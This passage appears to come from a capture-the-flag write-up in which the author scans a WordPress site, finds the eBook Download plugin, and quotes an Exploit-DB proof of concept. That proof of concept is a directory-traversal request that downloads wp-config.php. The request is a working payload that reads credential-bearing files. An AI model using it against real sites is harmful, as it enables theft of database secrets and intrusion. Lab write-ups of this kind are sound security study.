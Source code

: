 ```hcl
[+] Finished: Sat Apr 23 23:46:49 2022
[+] Requests Done: 97856
[+] Cached Requests: 39
[+] Data Sent: 26.254 MB
[+] Data Received: 13.088 MB
[+] Memory used: 421.66 MB
[+] Elapsed time: 00:22:29
```

We see an interesting plugin called ebook-download

Searching exploit db we find this poc: [https://www.exploit-db.com/exploits/39575](https://www.exploit-db.com/exploits/39575)

```
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7
 
[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================
 
[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
```

Going to that url in the poc we get prompted to download what looks to be the config

![](<../../../.gitbook/assets/image (11).png>)
